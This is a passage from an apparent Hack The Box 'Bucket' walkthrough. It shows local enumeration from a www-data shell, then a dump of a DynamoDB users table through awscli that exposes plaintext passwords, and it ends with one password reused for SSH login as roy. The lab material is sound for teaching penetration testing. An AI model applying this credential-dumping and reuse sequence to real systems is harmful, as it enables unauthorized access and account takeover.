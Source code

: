 # >> Enumeration -

- ### Interesting file permission on bucket-app -

`bucket-app` is owned by root, but there’s a plus at the end of the permissions string. That means it has extended permissions, or ACLs:


```bash
www-data@bucket:/var/www$ ls -la
total 16
drwxr-xr-x   4 root root 4096 Feb 10 12:29 .
drwxr-xr-x  14 root root 4096 Feb 10 12:29 ..
drwxr-x---+  4 root root 4096 Feb 10 12:29 bucket-app
drwxr-xr-x   2 root root 4096 May  6 22:53 html
```

```bash
www-data@bucket:/var/www$ getfacl bucket-app/
# file: bucket-app/
# owner: root
# group: root
user::rwx
user:roy:r-x
group::r-x
mask::r-x
other::---
```

roy has access to this directory to read and execute.

- ### Exploring /home directory-

```bash
www-data@bucket:/home/roy$ ls -la
total 28
drwxr-xr-x 3 roy  roy  4096 Sep 24  2020 .
drwxr-xr-x 3 root root 4096 Sep 16  2020 ..
lrwxrwxrwx 1 roy  roy     9 Sep 16  2020 .bash_history -> /dev/null
-rw-r--r-- 1 roy  roy   220 Sep 16  2020 .bash_logout
-rw-r--r-- 1 roy  roy  3771 Sep 16  2020 .bashrc
-rw-r--r-- 1 roy  roy   807 Sep 16  2020 .profile
drwxr-xr-x 3 roy  roy  4096 Sep 24  2020 project
-r-------- 1 roy  roy    33 May  6 21:15 user.txt
```

```bash
www-data@bucket:/home/roy/project$ ls -la
total 44
drwxr-xr-x  3 roy roy  4096 Sep 24  2020 .
drwxr-xr-x  3 roy roy  4096 Sep 24  2020 ..
-rw-rw-r--  1 roy roy    63 Sep 24  2020 composer.json
-rw-rw-r--  1 roy roy 20533 Sep 24  2020 composer.lock
-rw-r--r--  1 roy roy   367 Sep 24  2020 db.php
drwxrwxr-x 10 roy roy  4096 Sep 24  2020 vendor
```

- ### `db.php` contains connection information to [DynamoDB](https://aws.amazon.com/dynamodb/), which is AWS’ NoSQL database instance.

- ### Checking connections on the box-

```bash
www-data@bucket:/home/roy/project$ ss -lnpt
State             Recv-Q            Send-Q                        Local Address:Port                          Peer Address:Port            Process            
LISTEN            0                 4096                          127.0.0.53%lo:53                                 0.0.0.0:*                                  
LISTEN            0                 4096                              127.0.0.1:4566                               0.0.0.0:*                                  
LISTEN            0                 128                                 0.0.0.0:22                                 0.0.0.0:*                                  
LISTEN            0                 511                               127.0.0.1:8000                               0.0.0.0:*                                  
LISTEN            0                 4096                              127.0.0.1:46093                              0.0.0.0:*                                  
LISTEN            0                 128                                    [::]:22                                    [::]:*                                  
LISTEN            0                 511                                       *:80                                       *:*                                  
```

- ### Apache Virtual Hosts -

```bash
www-data@bucket:/home/roy/project$ cd /etc/apache2/sites-enabled/
www-data@bucket:/etc/apache2/sites-enabled$ ls
000-default.conf
```
- Port 8000 running as root -
```bash
<VirtualHost 127.0.0.1:8000>
        <IfModule mpm_itk_module>
                AssignUserId root root
        </IfModule>
        DocumentRoot /var/www/bucket-app
</VirtualHost>
```

###  >> Enumerating DynamoDB through awscli-

- Enumearting tables -


```bash
root@napster:~/Documents/HTB/Bucket# aws --endpoint-url http://s3.bucket.htb dynamodb list-tables
{
    "TableNames": [
        "users"
    ]
}
```

-  The `scan` subcommand seems like the one to use to dump an entire table -

```bash
root@napster:~/Documents/HTB/Bucket# aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users
{
    "Items": [
        {
            "password": {
                "S": "Management@#1@#"
            },
            "username": {
                "S": "Mgmt"
            }
        },
        {
            "password": {
                "S": "Welcome123!"
            },
            "username": {
                "S": "Cloudadm"
            }
        },
        {
            "password": {
                "S": "n2vM-<_K_Q:.Aa2"
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}
```

- ### Usernames -

```bash
root@napster:~/Documents/HTB/Bucket# aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users | jq  .Items[].username[]
"Mgmt"
"Cloudadm"
"Sysadm"
```

- ### Passwords -

```bash
root@napster:~/Documents/HTB/Bucket# aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users | jq  .Items[].password[]
"Management@#1@#"
"Welcome123!"
"n2vM-<_K_Q:.Aa2"
```

## >>Trying to use the above pasword with user roy and log in via su/ssh -

- ### ssh roy@10.10.10.212						[Password -  n2vM-<_K_Q:.Aa2]

![[Pasted image 20210506195940.png]]